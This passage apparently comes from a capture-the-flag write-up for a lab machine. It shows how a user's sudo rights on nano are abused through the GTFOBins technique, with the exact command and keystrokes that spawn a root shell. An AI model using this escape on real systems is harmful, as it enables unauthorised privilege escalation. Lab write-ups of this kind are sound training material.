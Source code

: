 ![user13](./openadmin/user13.png)

And it seems like this user has Sudo privileges:

![user14](./openadmin/user14.png)

`nano` is a known GTFO bin:

- https://gtfobins.github.io/gtfobins/nano/

Use it to get a shell as `root`:

```bash
sudo /bin/nano /opt/priv
<ctrl>R<ctrl>X
reset; sh 1>&0 2>&0
```

![root1](./openadmin/root1.png)

